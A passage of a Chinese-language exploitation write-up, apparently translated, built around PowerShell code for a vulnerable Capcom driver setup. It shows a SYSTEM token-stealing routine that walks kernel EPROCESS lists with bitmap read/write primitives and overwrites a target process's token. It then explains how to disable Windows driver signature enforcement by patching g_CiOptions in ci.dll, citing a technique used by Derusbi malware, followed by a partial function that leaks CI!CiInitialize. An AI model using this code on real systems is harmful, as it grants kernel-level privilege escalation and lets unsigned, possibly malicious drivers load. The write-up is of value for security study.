 ```
    $SysEPROCESS = Bitmap-Read -Address $SysEprocessPtr
    $SysToken = Bitmap-Read -Address $($SysEPROCESS+$TokenOffset)
    Write-Output "`n[+] SYSTEM Token: 0x$("{0:X}" -f $SysToken)"
    # Get EPROCESS entry for PID
    $NextProcess = $(Bitmap-Read -Address $($SysEPROCESS+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
    while($true) {
        $NextPID = Bitmap-Read -Address $($NextProcess+$UniqueProcessIdOffset)
        if ($NextPID -eq $ProcPID) {
            $TargetTokenAddr = $NextProcess+$TokenOffset
            Write-Output "[+] Found PID: $NextPID"
            Write-Output "[+] PID token: 0x$("{0:X}" -f $(Bitmap-Read -Address $($NextProcess+$TokenOffset)))"
            break
        }
        $NextProcess = $(Bitmap-Read -Address $($NextProcess+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
    }
    # Duplicate token!
    Write-Output "[!] Duplicating SYSTEM token!`n"
    Bitmap-Write -Address $TargetTokenAddr -Value $SysToken
}
```

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0124422e131738d9d8.png)

**绕过强制驱动签名**

我建议你看下@j00ru的关于强制驱动签名的[write-up](http://j00ru.vexillium.org/?p=377)。结果证明Windows上的代码完整性有一个独立的二进制（ci.dll，%WINDIR%System32）管理。在Windows 8之前，CI导出了一个全局的boolean变量g_CiEnabled，完美的表示签名是否启动。在Windows 8之后，g_CiEnabled被另一个全局变量（g_CiOptions）代替，其是一个标志的组合（最重要的是0x0=禁用，0x6=启用，0x8=测试模式）。

由于Δt free-time限制，这个模块只针对Win8+中使用的g_CiOptions。然而，类似的方法可以用于g_CiEnabled（欢迎GitHub pull 请求）。基本上，我们将使用和Derusbi恶意软件的作者一样的技术。因为g_CiOptions没有导出，我们不得不在patch这个值时做些动态计算。如果我们反编译CI!CiInitialize，我们能看见g_CiOptions的指针。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013f5a5c28f767f7e8.png)

与我们之前做的类似，我们能在CI!CiInitialize中泄漏地址，而不是用任何漏洞。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017e3b522bcb21693a.png)

目前只实现了一些逻辑，使用我们的bitmap原语来读取字节，以寻找第一个“jmp”（0xE9），和第一个“mov dword ptr[xxxxx], ecx”（0x890D）。一旦我们有了g_CiOptions的地址，我们能设置我们想要的任何值。Powershell函数如下。



```
function Capcom-DriverSigning {
    param ([Int]$SetValue)
    # Check our bitmaps have been staged into memory
    if (!$ManagerBitmap -Or !$WorkerBitmap) {
        Capcom-StageGDI
        if ($DriverNotLoaded -eq $true) {
            Return
        }
    }
    # Leak CI base =&gt; $SystemModuleCI.ImageBase
    $SystemModuleCI = Get-LoadedModules |Where-Object {$_.ImageName -Like "*CI.dll"}
    # We need DONT_RESOLVE_DLL_REFERENCES for CI LoadLibraryEx
    $CIHanle = [Capcom]::LoadLibraryEx("ci.dll", [IntPtr]::Zero, 0x1)
    $CiInitialize = [Capcom]::GetProcAddress($CIHanle, "CiInitialize")
    # Calculate =&gt; CI!CiInitialize
    $CiInitializePtr = $CiInitialize.ToInt64() - $CIHanle + $SystemModuleCI.ImageBase
    Write-Output "`n[+] CI!CiInitialize: $('{0:X}' -f $CiInitializePtr)"
    # Free CI handle
    $CallResult = [Capcom]::FreeLibrary($CIHanle)
    # Calculate =&gt; CipInitialize
```